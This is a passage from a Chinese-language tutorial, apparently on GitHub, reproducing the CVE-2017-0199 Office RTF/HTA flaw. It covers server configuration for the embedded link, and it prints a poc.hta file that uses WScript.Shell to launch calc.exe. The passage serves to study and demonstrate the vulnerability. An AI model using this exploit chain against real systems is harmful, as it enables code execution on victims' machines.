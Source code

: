 ![insert_rtf_url](img/CVE-2017-0199/insert_rtf_url.png)

如果此时对以上链接进行抓包访问，看到的内容如下，需要保证返回的Content-Type的值是application/rtf或者application/doc（为了隐藏图标，也为保证正常插入链接）：

![rtf_response](img/CVE-2017-0199/rtf_response.png)


#### 第二步：替换链接中的文件为HTA文件

还是在服务端进行配置的修改，先上传poc.hta到服务器/var/ww/html/，poc.hta的内容如下：

```html
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```
